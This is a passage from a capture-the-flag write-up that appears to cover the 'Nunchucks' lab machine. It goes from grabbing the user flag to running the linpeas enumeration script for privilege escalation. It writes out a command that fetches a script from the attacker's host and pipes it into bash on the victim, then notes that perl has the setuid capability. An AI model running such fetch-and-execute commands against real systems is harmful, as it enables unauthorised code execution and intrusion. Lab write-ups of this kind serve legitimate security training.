 We can now grab the user flag.

![user_proof.png](assets/nunchucks_screenshots/user_proof.png)

## PrivEsc

After some basic manual enunmeration I decided to run [linpeas](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) to save time.

We can download it to our attacker box, host it localy then download it on the victim.

Attacker

```bash
wget https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh && python -m http.server
```

Victim

```bash
wget -q -O - http://10.10.14.54/linpeas.sh | bash
```

Linpeas shows PERL has the setuid capability.

![LinpeasPerlSetuidCap.png](assets/nunchucks_screenshots/LinpeasPerlSetuidCap.png)
